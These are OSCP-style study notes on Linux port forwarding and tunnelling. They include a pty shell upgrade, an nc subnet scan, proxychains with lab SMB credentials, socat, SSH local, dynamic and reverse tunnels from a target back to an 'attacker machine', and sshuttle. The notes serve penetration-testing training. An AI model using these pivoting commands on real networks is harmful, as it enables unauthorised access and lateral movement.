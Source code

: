```yaml
---
{"dg-publish":true,"permalink":"/oscp/10-port-redirection-and-tunneling/1-linux-port-forwarding/"}
---
```


------
## Tunneling Theory + SOCKS:

Port forwarding may need tty capabilities on target machine, so import with python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate hosts to tunnel to without nmap:
```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

Confirm the tunnel is working from another shell by listing listening ports:
```
ss -ntplu
```

Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- -q silences any proxychains output
- Might use socks4 depending on versioning
- Won't work on statically-linked binaries
- Edit **tcp_read_time_out** and **tcp_connect_time_out** values in the conf-file for faster connections.
--------
## Socat port forwarding:
```
socat -ddd TCP-LISTEN:<listeningport>,fork TCP:<forkip>:<forkport>
```

------------
## SSH Local Port Forwarding:
```
ssh -v -N -L 0.0.0.0:2345:<forkip>:<forkport> <sshuser>@<passthroughip>
```

--------
## SSH Dynamic Port Forwarding:
- Allows for multiple end-sockets at wherever packets can be received
- Uses SOCKS as proxying protocol
- Only limit is that packets have to be properly formatted by SOCK-compatible client software
```
ssh -N -D 0.0.0.0:2345 <sshuser>@<passthroughip>
```

-------
## SSH Remote Port Forwarding
- Outgoing connections are often much less filtered
- If we can't control and bind to any ports on the target machine, instead we can SSH out and bind to a attacker SSH server
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Check server is listening:
```
sudo ss -ntplu
```
3. Set up SSH tunnel back to server on target:
```
ssh -N -R 127.0.0.1:2345:10.4.203.215:5432 crabfeather@192.168.45.180
```
4. Force packets over SOCKS with Proxychains:
```
#Edit /etc/proxychains4.conf to add the socket to the end:
socks5 <ip> <port>

#Prepend "proxychains -q -f <conf-file>" to the command to run, such as:
proxychains -q -f /etc/proxychains4.conf smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
5. Win!

---------
## SSH Remote Dynamic Port Forwarding:
- Working as Remote PF with functionality of dynamic tunneling
- Available since OpenSSH 7.6 in Oct 2017 -- required client's version
- Works with -R flag but with only one socket, and only needing port which defaults to loopback address
1. Open SSH server on attacker machine:
```
sudo systemctl start ssh
```
2. Set up SSH tunnel back to server on target:
```
ssh -N -R 2345 crabfeather@192.168.45.180
```
3. Win!

------
## SSHuttle:
- Turns a SSH connection into something similar to a VPN
- Requires root privs on SSH client and Python3 on SSH server
- Routes all types of traffic, including UDP and ICMP using iptables
- Also less packet loss (apparently)
```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
